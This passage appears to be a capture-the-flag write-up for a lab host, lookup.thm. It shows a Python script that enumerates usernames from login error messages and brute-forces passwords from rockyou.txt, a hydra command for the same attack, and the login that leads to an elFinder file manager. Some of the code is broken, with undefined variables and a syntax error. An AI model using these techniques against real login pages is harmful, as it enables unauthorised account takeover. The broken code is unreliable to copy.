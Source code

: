 ```python
with open('/usr/share/seclists/Usernames/Names/names.txt', 'r') as file:
    usernames = [file.readline().strip() for _ in range(5000)]

with open('/home/blackarch/Documents/rockyou.txt', 'r') as file:
    password_list = [file.readline().strip() for _ in range(5000)]

def enumerate_usernames(url, username, password):
    for name in usernames:
        payload = {"username": name, "password": password_test }
        response = requests.post(url, data=payload)
        response_body = response.text 
        if "Wrong password. Please try again." in response_body and name != "admin":
            print("found a valid username", name)
            global final_username
            final_username = name
            break
        else :
            print(name, "is not a valid username")
            continue

enumerate_usernames(url, "", password_test)

choice = input("do you now want to brute-force it? yes/no")
if choice == "yes" :
    for pwd in password_list:
        payload_2 = {"username": final_username, "password": pwd }
        response = requests.post(url, data=payload_2)
        response_2_body = response.text 
        if error_message not in response_2_body
            print("found a valid password", pwd)
            final_pwd = pwd
            break
        else :
            print(pwd, "is not a valid password")
            continue

else: 
    print("bye")

print(final_username, ":" ,final_pwd)
```


Once the username is found you can choose if use the script to brute force the password or exit and use a tool like hydra:
```bash
hydra -l jose -P ~/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong Password" -V
```

Now we can finally login with `jose:REDACTED_PASSWORD`

After logging in we get this message: "Unknown host: files.lookup.thm", let's add `files.lookup.thm` domain in the hosts file.
Going back to the browser and refreshing the page now shows the *elfinder* application.
